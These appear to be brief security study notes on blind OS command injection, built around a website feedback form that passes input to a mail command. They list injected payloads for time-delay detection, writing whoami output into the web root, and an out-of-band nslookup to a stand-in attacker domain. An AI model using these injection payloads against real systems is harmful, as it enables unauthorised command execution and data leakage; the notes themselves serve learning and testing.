 --- ---

<h2>Blind OS Command Injection Vulnerabilities</h2>

Example:
- Website allows users to submit feedback about the website
- Feedback form sends email to a site administrator mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com

- Detection/Exploit:
	- Inject a command that triggers a time delay
		& ping -c 10 127.0.0.1 &
		§ Will ping loopback adapter for 10 seconds

- Redirect Output into a file in the web root
	& whoami > /var/www/static/whoami.txt &
	§ Use a browser to fetch /whoami.txt to see the output

- Exploit using out-of-band (OAST) techniques
	& nslookup kgji2ohoyw.web-attacker.com &
	§ Attacker can monitor for the specified lookup occuring
